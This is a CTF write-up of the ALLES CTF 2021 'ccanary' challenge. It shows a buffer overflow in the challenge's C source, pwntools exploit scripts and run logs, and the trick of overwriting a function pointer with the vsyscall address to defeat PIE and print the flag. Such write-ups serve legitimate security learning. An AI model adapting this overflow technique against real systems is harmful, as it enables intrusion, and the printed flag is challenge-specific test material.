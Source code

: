 ```yaml
---
layout: post
title: ALLES CTF 2021
subtitle: Writeups for ALLES CTF 2021 
tags: [ctf, writeups]
comments: true
---
```

# ccanary

## Description
```
I'm using arch btw... ¯\_(ツ)_/¯
```
## Challenge files:
- [ccanary](/uploads/ALLES2021/ccanary/ccanary)
- [ccanary.c](/uploads/ALLES2021/ccanary/ccanary.c)

Look at the source code, we can see that it got a **buffer overflow vulnerability** at the `quotegets` function:
```c
void quotegets(char* inp) {
	*inp = '"';
	// read input
	for (; *inp != '\n';)
		*++inp = fgetc(stdin);
	// append postfix
	for (char* postfix = "\"\n- you, 2021"; *postfix; postfix++)
		*inp++ = *postfix;
	// NUL-terminate
	*inp = 0;
}
```

Look at the main function, looks like we can overwrite the `call_canary` and `give_flag`  inside the structure variable:
```c
int main(void) {
    ignore_me_init_buffering();
    struct data data = {
        .yourinput = { 0 },
        .call_canary = canary,
        .give_flag = 0,
    };

    printf("quote> ");
    quotegets((char*) &data.yourinput);

    data.call_canary();
    puts("good birb!");

    puts("");
    puts((char*) &data.yourinput);

    if (data.give_flag) {
        puts("Here's the flag:");
        system("cat flag");
    }
    return 0;
}
```

Unfortunately, running checksec the binary have PIE enabled (means function address random)
```
checksec ccanary
[*] '/home/hong/ctf/alles2021/ccanary/ccanary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Exploit
So basically we must overwrite the `give_flag` to anything, then it will run `cat flag.txt` for us

But the `call_canary` also will overwritten, if we overwrite it with invalid function address, it will just SEGFAULT before it prints the flag

### Attempt 1
Assume the machine PIE feauture is disabled, so we can overwrite it with the default address

I first compile it with `no-pie` flag, then view the default address:
```bash
gcc -o test ccanary.c -no-pie 
objdump -x test
...
...
00000000004013b0 g     F .text  0000000000000065              __libc_csu_init
0000000000404090 g       .bss   0000000000000000              _end
0000000000401120 g     F .text  0000000000000005              .hidden _dl_relocate_static_pie
00000000004010f0 g     F .text  000000000000002f              _start
0000000000404058 g       .bss   0000000000000000              __bss_start
00000000004012ce g     F .text  00000000000000dd              main
0000000000000000       F *UND*  0000000000000000              setvbuf@@GLIBC_2.2.5
0000000000401252 g     F .text  000000000000007c              quotegets
0000000000404058 g     O .data  0000000000000000              .hidden __TMC_END__
0000000000401000 g     F .init  0000000000000000              .hidden _init
000000000040123b g     F .text  0000000000000017              canary
0000000000404080 g     O .bss   0000000000000008              stderr@@GLIBC_2.2.5
```

Then I wrote a pwntools script to exploit it:
```py
from pwn import *
elf = ELF("./test")

p = elf.process()
p.sendlineafter(b"quote> ",(b"a"*31+p64(0x40123b)))
p.interactive()
```
```
 python3 solve.py
[*] '/home/hong/ctf/alles2021/ccanary/test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/hong/ctf/alles2021/ccanary/test': pid 1147
[*] Switching to interactive mode
canary: *chirp* *chirp*
good birb!

"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;\x12
Here's the flag:
cat: flag: No such file or directory
[*] Got EOF while reading in interactive
```
It works locally! But it failed in the real machine...
```py
p = remote("7b000000a8c3acb6af92129b-ccanary.challenge.master.allesctf.net", 31337,ssl=True)
p.sendlineafter(b"quote> ",(b"a"*31+p64(0x4012ce)))
p.interactive()
```
```
python3 solve.py
[*] '/home/hong/ctf/alles2021/ccanary/test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/hong/ctf/alles2021/ccanary/test': pid 1300
[+] Opening connection to 7b000000a8c3acb6af92129b-ccanary.challenge.master.allesctf.net on port 31337: Done
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$
$
[*] Closed connection to 7b000000a8c3acb6af92129b-ccanary.challenge.master.allesctf.net port 31337
```

## Attempt 2
Maybe the address not start with 4? So I tried to brute force from 1 to 9 address.

But It fails again...

## Attempt 3
At the end I did not solve this during the CTF.. I look for writeups at the Discord, and I saw someone mention about overwrite with `vsyscall` address

The `vsyscall` address at Linux kernel so will be static for all systems I guess?

[vsyscall and vdso](http://terenceli.github.io/%E6%8A%80%E6%9C%AF/2019/02/13/vsyscall-and-vdso)

Then I tried the address `0xffffffffff600000` it works like charm!!

```
python3 solve.py
[*] '/home/hong/ctf/alles2021/ccanary/test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 7b000000a8c3acb6af92129b-ccanary.challenge.master.allesctf.net on port 31337: Done
[*] Switching to interactive mode
good birb!

"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Here's the flag:
ALLES!{th1s_m1ght_n0t_work_on_y0ur_syst3m_:^)}

```
[Full script](/uploads/ALLES2021/ccanary/solve.py)

## Flag
```
ALLES!{th1s_m1ght_n0t_work_on_y0ur_syst3m_:^)}
```